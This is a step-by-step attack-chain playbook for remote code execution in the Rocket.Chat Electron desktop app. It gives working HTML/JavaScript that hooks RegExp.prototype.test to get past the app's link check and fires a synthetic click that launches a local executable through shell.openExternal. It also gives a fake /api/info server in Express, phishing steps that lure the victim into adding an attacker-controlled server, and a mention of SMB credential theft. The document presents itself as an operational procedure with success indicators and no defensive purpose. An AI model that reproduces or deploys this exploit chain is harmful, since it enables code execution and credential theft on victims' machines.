

# Rocket.Chat Electron RCE via Links.js Regex Bypass

Multi-stage attack chain demonstrating a complete attack workflow exploiting a vulnerability in Rocket.Chat's Electron desktop app (versions like 2.17.9). The attack bypasses a previous fix (#276031) in preload/links.js by hooking RegExp.prototype.test to evade URL protocol checks, dispatching synthetic click events without isTrusted validation, and leveraging lack of context isolation to trigger shell.openExternal for arbitrary code execution. This allows launching local executables (e.g., calc.exe) or accessing SMB shares for credential theft across Windows, Linux, and macOS.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web server (e.g., Python's http.server for hosting)
- Text editor for HTML/JS

### Target Environment

- Rocket.Chat Electron desktop app (e.g., version 2.17.9)
- Victim machine: Windows, Linux, or macOS
- No specific ports required; attack uses HTTP over port 80/443

### Initial Access Requirements

- Attacker controls a web server accessible to victim
- Victim uses Rocket.Chat app to add a new server
- No credentials needed; social engineering to trick victim into adding server

## Detailed Attack Procedures

### Step 1: Host Malicious Webpage
procedure: [[procedures/Create-Malicious-HTML-for-RegExp-Hook]]

**Objective**: Prepare a malicious HTML page that hooks JavaScript methods to bypass URL validation in the Electron app.

**Instructions**: Create an index.html file with JavaScript to override RegExp.prototype.test, create a fake link to a local executable, spoof document.closest, dispatch a synthetic click event, and clean up. Host this on a web server.

```html
<!DOCTYPE html>
<html>
<head><title>Malicious Server</title></head>
<body>
<script>
setTimeout(function() {
  var originalTest = RegExp.prototype.test;
  RegExp.prototype.test = function() {
    if (this.source === '^([a-z]+:)?\\/\\/') return true;
    return originalTest.apply(this, arguments);
  };

  var link = document.createElement('A');
  link.href = 'c:\\windows\\system32\\calc.exe';

  document.closest = function() { return link; };

  var event = new MouseEvent('click', { bubbles: true });
  document.dispatchEvent(event);

  RegExp.prototype.test = originalTest;
  delete document.closest;
}, 1000);
</script>
</body>
</html>
```

**Expected Output**: Page loads silently and triggers the bypass on click event dispatch.

**Success Indicators**:
- HTML file created and served at http://attacker.com/index.html
- JavaScript executes without errors in browser console

### Step 2: Set Up Fake API Endpoint
procedure: [[procedures/Set-Up-Fake-API-Info-Endpoint]]

**Objective**: Provide a minimal API response to satisfy the Rocket.Chat app's 'Add new server' validation before loading the malicious page.

**Instructions**: Create a simple /api/info endpoint that returns empty JSON {}. This is required for the app to proceed.

Use a basic server setup (e.g., Node.js or Python) to handle the route:

```javascript
// Example Node.js with Express
const express = require('express');
const app = express();
app.get('/api/info', (req, res) => res.json({}));
app.use(express.static('.'));
app.listen(80);
```

**Expected Output**: GET /api/info returns {} with 200 OK.

**Success Indicators**:
- Endpoint accessible and returns valid JSON
- App can query it without errors

### Step 3: Trigger Exploitation in App
procedure: [[procedures/Add-Malicious-Server-in-Rocket-Chat-App]]

**Objective**: Load the malicious page in the victim's Rocket.Chat Electron app to execute arbitrary code.

**Instructions**: Instruct the victim (via phishing) to open the Rocket.Chat app and add a new server using the attacker's URL (e.g., http://attacker.com). The app will fetch /api/info, then load index.html, executing the JS to bypass links.js checks and call shell.openExternal.

No direct command; simulate in app UI:
1. Open Rocket.Chat Electron app.
2. Go to 'Add new server'.
3. Enter http://attacker.com as server URL.
4. Confirm addition.

**Expected Output**: Local executable (e.g., calc.exe) launches on victim machine.

**Success Indicators**:
- App loads the page without blocking
- Target file executes (e.g., calculator opens on Windows)
- Potential SMB access for credential theft

## Attack Chain Summary

### Key Achievements

1. Bypassed URL regex validation in preload/links.js via JS prototype hooking.
2. Dispatched untrusted synthetic events to trigger shell.openExternal.
3. Achieved RCE on desktop OS without direct app compromise.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Drive-by Compromise]] Drive-by Compromise
- [[Exploitation for Client Execution]] Exploitation for Client Execution
- [[JavaScript]] JavaScript

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Execution]] Execution

---
*Last updated: 2023-10-01T00:00:00Z*
